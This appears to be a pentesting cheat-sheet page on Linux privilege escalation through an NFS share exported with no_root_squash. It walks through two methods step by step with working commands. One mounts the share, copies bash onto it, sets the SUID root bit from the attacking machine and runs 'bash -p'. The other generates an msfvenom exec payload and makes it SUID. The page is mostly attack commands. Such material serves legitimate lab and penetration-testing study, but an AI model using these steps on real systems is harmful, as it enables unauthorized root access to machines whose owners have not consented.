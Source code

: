 - **We can set the permissions** of whatever we upload, in this case a **bash** shell executable.
- We can then log in through SSH and execute this executable to gain a root shell!
1. NFS Access
   Mount if `/tmp` has `no_root_squash`
```shell
mount 192.168.1.101:/ /tmp/
mount -o rw,vers=3 VICTIM_IP:/tmp /tmp/nfs
```
2. Gain Low Privilege Shell
3. Download and put the victim bash file to the NFS share
   `scp victimname@VICTIM_IP:/bin/bash /tmp/nfs`
4. Set SUID Permissions Through NFS Due To Misconfigured Root Squash
   ```shell
   sudo chown root bashfile
   sudo chmod +s bashfile
   ```
5. Login through SSH
6. Execute SUID Bit Bash Executable (On the victim machine)
   ```shell
   ./bash -p
   ```
   The `-p` persists the permissions, so that it can run as root with SUID as otherwise bash will sometimes drop the permissions.
7. ROOT ACCESS
### Method 2 - Create Executable file
```shell
# First check if the target machine has any NFS shares
showmount -e 192.168.1.101
```
If it does, then mount it to your filesystem
Log as **root** and mount.
Mount if `/tmp` has `no_root_squash`
```shell
mount 192.168.1.101:/ /tmp/
mount -o rw,vers=3 VICTIM_IP:/tmp /tmp/nfs
```
If that succeeds, go to `/tmp/share` or `/tmp/nfs`
There might be some interesting stuff there.
But even if there isn't you might be able to exploit it.
- **Test** if you can **create files**, then check with your low-priv shell **what user** has **created** that file.
- **If it root**, **create** a [[exploit_file_NFS\|exploit_file_NFS]] **or** generate a payload using **msfvenom**
```shell
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
- save it to the mounted share or compile it with [[gcc\|gcc]] (On the victim machine if it's possible to avoid compatibility issues) to get the executable
- set it with **[[SUID\|SUID]]**-permission from your attacking machine.
```shell
chmod 4777 exploit_file
chmod +xs exploit_file
```
 - And then **execute it** with your low privilege shell on the victim machine.
